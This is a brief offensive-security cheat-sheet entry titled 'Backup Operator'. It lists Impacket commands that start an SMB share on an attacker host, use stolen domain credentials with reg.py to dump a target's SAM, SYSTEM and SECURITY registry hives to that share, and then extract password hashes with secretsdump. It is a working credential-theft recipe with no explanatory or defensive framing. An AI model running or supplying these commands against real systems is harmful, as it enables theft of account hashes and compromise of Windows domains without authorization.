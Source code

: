 ### Backup Operator

```shell
smbserver.py -smb2support EXEGOL .
reg.py $DOMAIN/$USERNAME:$PASSWORD@$TARGET backup -o \\$ATTACKER\\$SHARE
secretsdump -sam SAM.save -system SYSTEM.save -security SECURITY.save LOCAL
```
